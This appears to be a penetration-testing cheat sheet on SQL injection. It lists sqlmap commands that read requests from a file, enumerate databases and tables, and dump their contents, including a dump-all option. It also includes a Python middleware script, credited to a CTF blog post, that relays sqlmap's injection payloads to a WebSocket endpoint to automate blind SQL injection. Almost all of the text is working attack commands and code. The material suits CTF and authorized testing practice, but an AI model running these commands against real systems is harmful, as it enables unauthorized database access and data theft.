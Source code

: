 Sqlmap [File]
```bash
sqlmap -r <file> 
```

Sqlmap (autocomplete)
```bash
sqlmap -r <file> --batch
```

Sqlmap  (list all db)
```bash
sqlmap -r <file> --batch --dbs
```

Sqlmap  (list all table)
```bash
sqlmap -r <file> --batch -D <databasename> --tables
```

Sqlmap (dump)
```bash
sqlmap -r <file> --batch -D <databasename> -T <tablename> --dump
```

Sqlmap [URL]
```bash
sqlmap -u <url> -data "<body>"
```

Sqlmap (dump all & skip default DBs)
```bash
sqlmap -r <file> --batch --dump-all --exclude-sysdbs
```

Sqlmap
```bash
sqlmap -r <file> --current-db
```

Sql Injection WebSocket [LINK]([Automating Blind SQL injection over WebSocket | Rayhan0x01’s Blog](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html))
```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://localhost:8156/ws"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"id":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```

